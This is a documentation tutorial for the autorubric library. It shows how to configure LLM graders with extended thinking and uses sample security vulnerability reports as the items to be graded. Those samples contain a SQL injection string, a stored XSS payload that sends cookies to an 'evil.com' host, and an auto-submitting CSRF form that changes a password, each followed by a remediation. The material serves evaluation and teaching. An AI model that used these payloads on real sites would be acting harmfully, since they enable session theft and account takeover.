

# Complex Reasoning with Extended Thinking

Enable deep reasoning for technical or nuanced evaluations that require careful analysis.

## The Scenario

You're evaluating security vulnerability assessment reports. These require deep technical analysis—the judge needs to reason through complex code patterns, understand attack vectors, and verify that recommendations are sound. Quick judgments aren't enough; you need the LLM to "think" through each criterion carefully.

## What You'll Learn

- Enabling extended thinking with `ThinkingConfig`
- Using thinking levels (LOW, MEDIUM, HIGH) vs explicit token budgets
- Accessing reasoning traces: report-level `CriterionReport.reasoning` for grading results, `GenerateResult.thinking` for direct `LLMClient.generate` calls
- Balancing reasoning depth against latency and cost

## The Solution



### Step 1: Define Technical Evaluation Criteria

Create a rubric for security assessments:

```python
from autorubric import Rubric

rubric = Rubric.from_dict([
    {
        "name": "vulnerability_identification",
        "weight": 15.0,
        "requirement": "Correctly identifies the type and severity of security vulnerability"
    },
    {
        "name": "root_cause_analysis",
        "weight": 12.0,
        "requirement": "Provides accurate root cause analysis of the vulnerability"
    },
    {
        "name": "exploitation_assessment",
        "weight": 10.0,
        "requirement": "Accurately assesses exploitability and potential impact"
    },
    {
        "name": "remediation_quality",
        "weight": 10.0,
        "requirement": "Proposes effective and practical remediation steps"
    },
    {
        "name": "false_positive",
        "weight": -15.0,
        "requirement": "Report describes a non-existent or misidentified vulnerability"
    }
])
```

### Step 2: Enable Extended Thinking

Configure the grader to use extended thinking:

```python
from autorubric import LLMConfig
from autorubric.graders import CriterionGrader

# Option 1: Use a thinking level
grader = CriterionGrader(
    llm_config=LLMConfig(
        model="anthropic/claude-sonnet-4-5-20250929",
        thinking="high",  # LOW, MEDIUM, or HIGH
    )
)

# Option 2: Specify exact token budget
grader = CriterionGrader(
    llm_config=LLMConfig(
        model="anthropic/claude-sonnet-4-5-20250929",
        thinking=8000,  # 8000 thinking tokens
    )
)

# Option 3: Full ThinkingConfig control
from autorubric.llm import ThinkingConfig, ThinkingLevel

grader = CriterionGrader(
    llm_config=LLMConfig(
        model="anthropic/claude-sonnet-4-5-20250929",
        thinking=ThinkingConfig(
            level=ThinkingLevel.HIGH,
            budget_tokens=16000,  # Override level with explicit budget
        )
    )
)
```

!!! info "Thinking Level Budgets"
    | Level | Approximate Tokens |
    |-------|-------------------|
    | LOW | ~1,024 |
    | MEDIUM | ~2,048 |
    | HIGH | ~4,096 |

    For complex technical analysis, consider explicit budgets of 8,000-16,000 tokens.

### Step 3: Provider Support

Extended thinking/reasoning is supported across providers:

```python
# Anthropic - Extended Thinking (claude-sonnet-4-5, claude-opus-4-5)
LLMConfig(model="anthropic/claude-sonnet-4-5-20250929", thinking="high")

# OpenAI - Reasoning (o-series, GPT-5 models)
LLMConfig(model="openai/o1-preview", thinking="high")

# Gemini - Thinking Mode (2.5+, 3.0+ models)
LLMConfig(model="gemini/gemini-2.5-pro", thinking="high")

# DeepSeek - Reasoning
LLMConfig(model="deepseek/deepseek-reasoner", thinking="high")
```

LiteLLM translates the thinking configuration to provider-specific parameters automatically.

!!! tip "Provider-specific behavior"
    Not all providers implement thinking tokens the same way. Anthropic uses an explicit `budget_tokens` parameter that caps reasoning length, while OpenAI's o-series models and Gemini's thinking mode rely on level presets mapped internally. When switching providers, verify that your thinking configuration produces comparable reasoning depth by inspecting the `GenerateResult.thinking` field.

### Step 4: Grade with Extended Thinking

````python
import asyncio

security_report = """
## Vulnerability Report: SQL Injection in User Search

### Summary
Critical SQL injection vulnerability in `/api/users/search` endpoint.

### Technical Details
The endpoint constructs SQL queries using string concatenation:

```python
def search_users(query):
    sql = f"SELECT * FROM users WHERE name LIKE '%{query}%'"
    return db.execute(sql)
```

User input is passed directly to the SQL query without sanitization
or parameterization.

### Exploitation
An attacker can inject SQL by sending:
```
GET /api/users/search?q=' OR '1'='1' --
```

This would return all users, bypassing access controls.

### Impact
- Unauthorized data access (all user records)
- Potential data modification/deletion
- Possible privilege escalation if admin tables accessible

### Remediation
1. Use parameterized queries:
   ```python
   sql = "SELECT * FROM users WHERE name LIKE ?"
   db.execute(sql, [f'%{query}%'])
   ```
2. Implement input validation for search patterns
3. Apply principle of least privilege to database user
4. Add WAF rules to detect SQL injection patterns
"""

async def main():
    result = await rubric.grade(
        to_grade=security_report,
        grader=grader,
        query="Evaluate this security vulnerability report."
    )
    return result

result = asyncio.run(main())
````

### Step 5: Compare With and Without Thinking

Test whether extended thinking improves accuracy:

```python
async def compare_thinking_modes():
    # Without thinking
    grader_basic = CriterionGrader(
        llm_config=LLMConfig(
            model="anthropic/claude-sonnet-4-5-20250929",
            thinking=None,  # No extended thinking
        )
    )

    # With high thinking
    grader_thinking = CriterionGrader(
        llm_config=LLMConfig(
            model="anthropic/claude-sonnet-4-5-20250929",
            thinking="high",
        )
    )

    query = "Evaluate this security vulnerability report."

    basic_result = await rubric.grade(
        to_grade=security_report, grader=grader_basic, query=query
    )

    thinking_result = await rubric.grade(
        to_grade=security_report, grader=grader_thinking, query=query
    )

    # result.score is `float | None` (None if the grade failed); render None as "n/a".
    def fmt(x):
        return f"{x:.2f}" if x is not None else "n/a"

    print("Without Thinking:")
    print(f"  Score: {fmt(basic_result.score)}")
    print(f"  Cost: ${basic_result.completion_cost or 0:.4f}")

    print("\nWith High Thinking:")
    print(f"  Score: {fmt(thinking_result.score)}")
    print(f"  Cost: ${thinking_result.completion_cost or 0:.4f}")
```

!!! warning "Cost Considerations"
    Extended thinking significantly increases token usage and cost.
    Thinking tokens are typically charged at a lower rate than output tokens,
    but the volume can be substantial. Use thinking selectively for complex
    evaluations where accuracy justifies the cost.

| Evaluation Complexity | Thinking Level | Budget Tokens (approx) | Use Case |
|---|---|---|---|
| Simple factual checks | LOW | ~1,024 | Style, formatting, and presence/absence criteria |
| Moderate analysis | MEDIUM | ~2,048 | Coherence, relevance, and moderate reasoning tasks |
| Deep technical review | HIGH | ~4,096 | Security audits, code correctness, multi-step logic |
| Domain-expert judgment | Custom (8,000-16,000) | User-specified | Novel research evaluation, complex legal or medical review |

### Step 6: Use OUTPUT_ONLY with Length Penalty

When using extended thinking with length penalty, you may want to penalize only the output length, not the thinking:

```python
from autorubric import LengthPenalty

grader = CriterionGrader(
    llm_config=LLMConfig(
        model="anthropic/claude-sonnet-4-5-20250929",
        thinking="high",
    ),
    length_penalty=LengthPenalty(
        free_budget=500,
        max_cap=2000,
        penalty_at_cap=0.3,
        penalty_type="OUTPUT_ONLY",  # Don't penalize thinking length
    )
)
```

## Key Takeaways

- **Extended thinking** improves accuracy on complex technical evaluations
- **Thinking levels** (`LOW`/`MEDIUM`/`HIGH`) provide easy configuration
- **Explicit budgets** give fine-grained control for demanding tasks
- **Multiple providers** support thinking/reasoning with unified API
- **Cost vs accuracy trade-off**: use thinking selectively where it matters
- **`OUTPUT_ONLY` penalty** allows unlimited thinking while controlling output

## Going Further

- [Length Penalty](length-penalty.md) - Control verbosity with thinking
- [Cost Optimization](cost-optimization.md) - Minimize costs for batch evaluation
- [API Reference: LLM](../api/llm.md) - Full `ThinkingConfig` documentation

---

## Appendix: Complete Code

````python
"""Extended Thinking - Security Vulnerability Assessment"""

import asyncio
from autorubric import Rubric, LLMConfig, LengthPenalty
from autorubric.graders import CriterionGrader


# Sample security vulnerability reports
SECURITY_REPORTS = [
    {
        "report": """
## Vulnerability Report: SQL Injection in User Search

### Summary
Critical SQL injection vulnerability in `/api/users/search` endpoint.

### Technical Details
The endpoint constructs SQL queries using string concatenation:

```python
def search_users(query):
    sql = f"SELECT * FROM users WHERE name LIKE '%{query}%'"
    return db.execute(sql)
```

User input is passed directly to the SQL query without sanitization.

### Exploitation
An attacker can inject SQL by sending:
```
GET /api/users/search?q=' OR '1'='1' --
```

### Impact
- Unauthorized data access (all user records)
- Potential data modification/deletion
- Possible privilege escalation

### Remediation
1. Use parameterized queries
2. Implement input validation
3. Apply principle of least privilege to database user
""",
        "description": "Valid SQL injection report"
    },
    {
        "report": """
## Vulnerability Report: XSS in Comment Field

### Summary
Stored XSS vulnerability in blog comment functionality.

### Technical Details
User comments are rendered without escaping:
```html
<div class="comment">{comment}</div>
```

### Exploitation
Attacker submits: `<script>document.location='http://evil.com/steal?c='+document.cookie</script>`

### Impact
- Session hijacking via cookie theft
- Defacement
- Phishing attacks

### Remediation
1. HTML-encode all user input before rendering
2. Implement Content Security Policy headers
3. Use HttpOnly flag on session cookies
""",
        "description": "Valid XSS report"
    },
    {
        "report": """
## Vulnerability Report: Potential Information Disclosure

### Summary
The website returns different error messages for valid vs invalid usernames.

### Technical Details
When logging in:
- Invalid username: "User not found"
- Invalid password: "Incorrect password"

### Impact
Attacker can enumerate valid usernames.

### Remediation
Use generic error message: "Invalid credentials"
""",
        "description": "Minor issue - username enumeration"
    },
    {
        "report": """
## Vulnerability Report: Critical Buffer Overflow

### Summary
CRITICAL: Buffer overflow in image processing library.

### Technical Details
I think there might be a buffer overflow somewhere in the image code
because images sometimes cause errors.

### Impact
Remote code execution probably.

### Remediation
Update the library or something.
""",
        "description": "Vague report with no technical detail"
    },
    {
        "report": """
## Vulnerability Report: CSRF Token Missing

### Summary
The password change endpoint lacks CSRF protection.

### Technical Details
Endpoint: POST /api/user/change-password
No CSRF token required. Cookies used for authentication.

### Exploitation
```html
<form action="https://target.com/api/user/change-password" method="POST">
  <input name="new_password" value="hacked123">
</form>
<script>document.forms[0].submit()</script>
```

Attacker hosts this page, victim visits, password changed.

### Impact
Account takeover if victim is authenticated.

### Remediation
1. Require CSRF token on all state-changing endpoints
2. Implement SameSite cookie attribute
3. Verify Origin/Referer headers
""",
        "description": "Valid CSRF report"
    }
]


async def main():
    # Define security assessment rubric
    rubric = Rubric.from_dict([
        {
            "name": "vulnerability_identification",
            "weight": 15.0,
            "requirement": "Correctly identifies the type and severity of security vulnerability"
        },
        {
            "name": "root_cause_analysis",
            "weight": 12.0,
            "requirement": "Provides accurate technical root cause analysis"
        },
        {
            "name": "exploitation_assessment",
            "weight": 10.0,
            "requirement": "Accurately demonstrates exploitability with working proof-of-concept"
        },
        {
            "name": "remediation_quality",
            "weight": 10.0,
            "requirement": "Proposes effective, specific, and practical remediation steps"
        },
        {
            "name": "false_positive",
            "weight": -15.0,
            "requirement": "Report describes a non-existent or fundamentally misidentified vulnerability"
        }
    ])

    # Grader without extended thinking
    grader_basic = CriterionGrader(
        llm_config=LLMConfig(
            model="openai/gpt-4.1-mini",
            temperature=0.0,
        )
    )

    # Grader with extended thinking
    grader_thinking = CriterionGrader(
        llm_config=LLMConfig(
            model="anthropic/claude-sonnet-4-5-20250929",
            temperature=0.0,
            thinking="high",
        )
    )

    print("=" * 70)
    print("SECURITY REPORT EVALUATION - THINKING MODE COMPARISON")
    print("=" * 70)

    for i, report_data in enumerate(SECURITY_REPORTS, 1):
        print(f"\n{'─' * 70}")
        print(f"Report {i}: {report_data['description']}")
        print(f"{'─' * 70}")

        # Evaluate with basic grader
        basic_result = await rubric.grade(
            to_grade=report_data["report"],
            grader=grader_basic,
            query="Evaluate this security vulnerability report for technical accuracy."
        )

        # Evaluate with thinking grader
        thinking_result = await rubric.grade(
            to_grade=report_data["report"],
            grader=grader_thinking,
            query="Evaluate this security vulnerability report for technical accuracy."
        )

        # .score is `float | None` (None if the grade failed); render None as "n/a".
        def fmt(x):
            return f"{x:.2f}" if x is not None else "n/a"

        print(f"\n{'GPT-4-mini (no thinking)':<30} | {'Claude Sonnet (high thinking)':<30}")
        print("-" * 62)
        print(f"Score: {fmt(basic_result.score)}{'':<22} | Score: {fmt(thinking_result.score)}")
        print(f"Cost: ${basic_result.completion_cost or 0:.4f}{'':<20} | Cost: ${thinking_result.completion_cost or 0:.4f}")

        # Compare verdicts
        print("\nVerdicts comparison:")
        for j, (basic_cr, think_cr) in enumerate(zip(basic_result.report, thinking_result.report)):
            basic_v = basic_cr.final_verdict.value if basic_cr.final_verdict else "?"
            think_v = think_cr.final_verdict.value if think_cr.final_verdict else "?"
            match = "=" if basic_v == think_v else "≠"
            print(f"  {basic_cr.criterion.name}: {basic_v} {match} {think_v}")


if __name__ == "__main__":
    asyncio.run(main())
````
